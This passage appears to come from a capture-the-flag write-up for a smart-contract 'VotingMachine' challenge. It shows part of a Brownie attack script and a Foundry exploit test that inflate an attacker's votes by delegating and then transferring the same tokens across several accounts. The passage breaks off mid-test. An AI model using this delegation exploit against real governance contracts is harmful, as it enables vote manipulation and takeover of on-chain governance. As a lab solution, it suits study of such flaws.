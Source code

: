 ```py
    print(f"{green}Balance of Alice: {magenta}{vToken.balanceOf(alice)}{reset}")
    print(f"{green}Balance of Bob: {magenta}{vToken.balanceOf(bob)}{reset}")
    print(f"{green}Balance of Carl: {magenta}{vToken.balanceOf(carl)}{reset}")
    print(f"{green}Balance of Atacker: {magenta}{vToken.balanceOf(attacker)}{reset}")
    print(f"{green}Attacker votes: {red}{vToken.getVotes(attacker)}{reset}")

    assert vToken.getVotes(attacker) == 3000
    assert vToken.balanceOf(attacker) == 1000


def main():
    attack()
```
- Run like this 
```js
brownie run scripts/attack.py
```

![](/assets/voting_m1.png)

## Foundry
- `exploitTest.t.sol`. The logic is the same

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.12;

import "forge-std/Test.sol";
import "../src/VotingMachine.sol";

contract exploitTest is Test {
    VoteToken vToken;
    address public owner = address(0);
    address public hacker = address(1337);

    address public alice = address(1);
    address public bob = address(2);
    address public carl = address(3);

    function setUp() public {
        vm.startPrank(owner);
        vToken = new VoteToken();
        vToken.mint(alice, 1000);
        vm.stopPrank();
    }

    function testExploit() public {
        uint hacker_vote = vToken.getVotes(hacker);
        vm.startPrank(alice);

        // soluiton
        vToken.delegate(hacker);
        console.log("Hacker's vote: ", vToken.getVotes(hacker));

        vToken.transfer(bob, 1000);
        // console.log("Bob's bakance: ", vToken.balanceOf(bob));
        vm.stopPrank();

        vm.startPrank(bob);
        vToken.delegate(hacker);
        console.log("Hacker's vote: ", vToken.getVotes(hacker));

        vToken.transfer(carl, 1000);
```